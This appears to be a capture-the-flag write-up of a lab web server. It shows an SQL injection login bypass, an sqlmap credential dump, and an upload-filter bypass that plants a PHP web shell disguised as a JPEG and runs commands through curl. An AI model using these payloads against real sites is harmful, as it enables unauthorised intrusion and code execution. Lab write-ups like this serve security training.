

# 10 - HTTP

# index.php


Login page is linked on the bottom left corner. Let us hit the link and see what it looks like.

# login.php


I like to try default credentials first, like admin:password root:root before looking closely at the request.

# SQL injection


302 response is given to us instead of password incorrect error. I think we just commented out the password line that's why we are redirected. Simply put, we are logged in through sql injection.

if the request is like:
```
select username, password from db where username = $username and password = $password;
```
what we have done is:
```
select username, password from db where username = admin -- - and password = admin;
```
`--` comments out the rest of the line so I believe only username is checked.

# SQLmap dump


I needed `--level 5 --risk 3` to get sqlmap working.

Credentials:

* admin: Th3s3usW4sK1ng

# upload.php


Image upload only allows image extensions like jpg jpeg but the server treats anything ,that contains `.php` in the filename, as a php file. A  file named "exploit.php.jpg" is considered a php file rather than an image.


# Code execution
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ curl -s http://10.10.10.185/images/fulls/1.jpg   |head -c 4 > exploit.php.jpg # For magic bytes
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ echo '<?php system($_REQUEST["cmd"]);?>' >> exploit.php.jpg
┌─[user@parrot]─[10.10.14.9]─[~/htb/magic]
└──╼ $ curl http://10.10.10.185/images/uploads/exploit.php.jpg?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


The first command copies the first 4 magic bytes into our malicious file because the server complains if magic bytes are not in the file. The next command adds our php payload. The last command executes any value given to it in the server.

# Shell


A reverse shell is successfully connected.